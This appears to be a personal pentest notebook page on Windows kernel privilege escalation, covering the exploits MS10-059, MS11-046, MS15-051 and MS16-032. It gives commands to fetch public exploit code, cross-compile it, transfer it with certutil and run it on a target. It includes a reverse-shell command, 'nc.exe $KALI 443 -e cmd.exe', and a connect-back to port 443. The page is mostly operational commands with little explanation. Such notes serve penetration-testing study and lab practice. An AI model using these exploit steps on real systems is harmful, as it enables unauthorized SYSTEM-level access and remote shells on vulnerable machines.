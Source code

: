 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

![[0.__PrivEsc Tools (WINDOWS)#windows-exploit-suggester py]]

[[99.__Links (WINDOWS)#Escalation Path Kernel Exploits]]

![[Pasted image 20221110100719.png]]


#### Chimi Churraskito MS10-059

https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS10-059

![[4._File Transfers#Certutil]]

```bash - kail
MS10-059.exe $KALI 443
```

#### MS11-046

```bash - kali
searchsploit -m 40564
```

```bash - kali
i686-w64-mingw32-gcc 40564.c -o MS11-046.exe -lws2_32
```

Transfer to Target.

[[4._File Transfers#Certutil]]

Now just run it.
```command prompt - target
MS11-046.exe
```

#### MS15-051

MS15-051 exploit
https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS15-051

Download zip folder and extract.

Transfer over exe and nc.exe to target

![[4._File Transfers#Certutil]]

[[rlwrap]]

```command prompt - target
ms15-051x64.exe "nc.exe $KALI 443 -e cmd.exe"
```


#### MS16-032

https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS16-032

Transfer exe over to target

[[4._File Transfers#Certutil]]

```powershell - target
.\ms-16-032.exe
```


Last updated: `$= dv.current().file.mtime.toFormat("MMMM dd, yyyy 'at' HH:mm")`
